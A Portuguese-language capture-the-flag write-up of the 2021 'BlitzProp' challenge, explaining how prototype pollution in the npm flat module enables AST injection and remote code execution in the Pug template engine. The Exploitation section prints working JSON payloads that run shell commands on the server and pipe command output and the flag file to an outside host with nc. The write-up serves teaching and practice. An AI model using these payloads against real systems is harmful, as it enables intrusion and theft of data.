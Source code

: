 ```yaml
---
layout: post
title: "BlitzProp - Cyber Apocalypse CTF 2021"
date: 2021-04-25 17:00:00 -0300
categories: CyberApocalypse
---
```

## Resumo

![img](/assets/BlitzProp/1.png)

BlitzProp foi um desafio do CTF Cyber Apocalypse realizado pelo Hack The Box e Crypto Hack, envolveu vulnerabilidades como Prototype Pollution, que possibilita o AST Injection permite um RCE.

## Recon
O desafio permitia o download do código fonte da aplicação, que utilizava como backend nodejs, as seguintes dependências existiam para o funcionamento da aplicação:

![img](/assets/BlitzProp/2.png)

O módulo flat permite a transformação de um objeto javascript em JSON e vice-versa. Abaixo um exemplo da função *unflatten*, utilizada na aplicação.

``` js
var unflatten = require('flat').unflatten
unflatten({
 'three.levels.deep': 42,
 'three.levels': {
 nested: true
 }
})

// {
// 		three: {
// 			levels: {
// 					deep: 42,
// 					nested: true
// 					}
// 				}
// }
```

Já a dependência Pug se trata de um *template engine*, que permite concatenar tags HTMLs junto do código javascript, para renderizar um template pré-definido.

```html
<!--
doctype html
html(lang\="en")
  head
    title\= pageTitle
    script(type\='text/javascript').
      if (foo) bar(1 + 5)
  body
    h1 Pug - node template engine
    #container.col
      if youAreUsingPug
        p You are amazing
      else
        p Get on it!
      p.
        Pug is a terse and simple templating language with a
        strong focus on performance and powerful features.
-->
 
<!-- Se torna: --> 

<!DOCTYPE html\>
<html lang\="en"\>
  <head\>
    <title\>Pug</title\>
    <script type\="text/javascript"\>
      if (foo) bar(1 + 5)
    </script\>
  </head\>
  <body\>
    <h1\>Pug - node template engine</h1\>
    <div id\="container" class\="col"\>
      <p\>You are amazing</p\>
      <p\>Pug is a terse and simple templating language with a strong focus on performance and powerful features.</p\>
    </div\>
  </body\>
</html\>
```

Como podemos visualizar no código abaixo, a aplicação recebe nosso corpo da requisição POST, aplica o *unflatten* nesta requisição e após isso compara com algumas das opções pré-definidas.
Caso a string recebida no corpo da requisição estivesse dentro da comparação, o módulo *pug* é chamado para realizar um template para a resposta.

![img](/assets/BlitzProp/3.png)

Podemos perceber que não há nenhuma função que rejeite a entrada de dados por parte da API, ou seja, ela recebe o body da requisição e acaba o processando.

## Exploitation
Como toda avaliação de segurança, após o reconhecimento da aplicação é necessário realizar o levantamento de vulnerabilidades. Conforme anotado na sessão de reconhecimento, temos as dependências *Pug* na versão **3.0.0** e a dependência *Flat* na versão **5.0.0**.
Um dos melhores sites para pesquisar por vulnerabilidades em pacotes npm é o [snik.io](https://snyk.io/vuln/npm:flat@5.0.0), procurando pela versão do flat, é possível identificar que o mesmo é vulnerável a prototype pollution.

![img](/assets/BlitzProp/4.png)

[Prototype pollution é uma vulnerabilidade que afeta o javascript, se trata da capacidade de um agente malicioso injetar propriedades dentro de objetos.](https://github.com/Kirill89/prototype-pollution-explained) O Javascript permite que todos os atributos de objetos possam ser alterados, incluindo os seus atributos principais como *\_\_proto\_\_*, *constructor* e *prototype*.

Deste modo, para verificar se o módulo da API estava realmente vulnerável, enviei uma requisição JSON alterando o atributo song.name para que retornasse sempre verdadeiro.

![img](/assets/BlitzProp/5.png)

Após esta requisição, todas as requisições para API retornam a compilação do template, comprovando a vulnerabilidade. 
Avaliando a vulnerabilidade do módulo flat, comecei a procurar por vulnerabilidades relacionadas com a dependência pug, foi onde encontrei uma [vulnerabilidade de RCE](https://snyk.io/vuln/SNYK-JS-PUG-1071616), que permite uma execução de comandos caso seja possível controlar a opção *pretty* do compilador do pug. Porém, não se encaixa na nossa aplicação pois esta opção não é utilizada.
Pesquisando um pouco mais, foi possível encontrar este excelente [artigo](https://blog.p6.is/AST-Injection/) que entrelaça a vulnerabilidade de Prototype Pollution com AST-Injection, desencadeando um RCE em mecanismos de template como o pug, mostrado no artigo.
[Abstract Syntax Trees (ASTs)](https://www.twilio.com/blog/abstract-syntax-trees) é a representação de código em árvore, são uma parte fundamental da maneira que um compilador trabalha. 
Dessa forma, podemos realizar uma injeção de AST via prototype pollution, fazendo com que o compilador execute nosso código malicioso.  
De acordo com este [artigo](https://blog.p6.is/AST-Injection/), podemos realizar a injeção do código malicioso no compilador do pug, por meio do objeto *block* realizamos a alteração de uma variável de debug chamada *pug_debug_line* com o código abaixo: 

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "Alterar pug_debug_line"

	}

   }

```

Enviando a requisição acima acarreta na alteração do objeto e variável do compilador do pug, fazendo com que o texto contido em "line" seja processado. Por meio dessa poluição, conseguimos injetar um código malicioso e gerar execução remota de comandos no servidor, por meio do código abaixo:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`ls | nc [REDACTED] 12562`)"

	}

   }

```

E dessa forma conseguimos visualizar o nome da flag da challenge.

![img](/assets/BlitzProp/6.png)

Enviamos outra requisição:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`cat flagYO1AC | nc [REDACTED] 12562`)"

	}

   }

```

E voa-lá, desafio concluído!

![img](/assets/BlitzProp/7.png)

## Considerações Finais

Podemos perceber por meio deste desafio como a vulnerabilidade de prototype pollution pode ser perigosa para muitas aplicações, pois consegue interagir diretamente com todos os objetos. Este tipo de falha começa a ficar cada vez mais comum visto a ampla adoção de frameworks javascript e typescript no mercado.
